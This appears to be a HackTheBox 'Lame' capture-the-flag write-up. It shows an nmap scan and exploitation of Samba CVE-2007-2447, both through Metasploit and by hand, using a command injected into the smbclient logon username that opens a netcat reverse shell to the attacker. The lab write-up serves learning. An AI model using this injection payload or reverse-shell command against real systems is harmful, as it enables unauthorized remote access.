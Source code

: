 > nmap -sC -sV 10.10.10.3

> -sC - default set of scripts
> -sV - enables version detection

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 09:39 CEST
Nmap scan report for 10.10.10.3
Host is up (0.068s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-05-19T03:40:29-04:00
|_clock-skew: mean: 2h00m41s, deviation: 2h49m43s, median: 40s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.92 seconds
```

Nmap reveals vsftpd 2.3.4, OpenSSH and Samba. Vsftpd 2.3.4 does have a built-in backdoor, however it is not exploitable in this instance.

Searching shows vuln: _CVE-2007-2447_

### Metasploit
> use usermap_script
> set rhosts 10.10.10.3
> exploit

And... boom. We got shell.

In my case needed to change LHOST also - remember to check if it's the same as connected to HackTheBox.

### Without Metasploit

Start nc listener (other terminal):

```shell
nc -lvnp 4444
```

> -l - listen mode
> -v - verbose
> -n -  numeric-only IP, no DNS
> -p - port

Second terminal:

> smbclient //10.10.10.3/tmp 
> enter

```shell
logon "./=`nohup nc -e /bin/bash <your ip> 4444`"
```

> logon: - it is used to login into smb
> nohup: - run a command immune to hangups, with output to a non-tty

We got it.

There are two flags:
```shell
cat /root/root.txt
cat /home/makis/user.txt
```
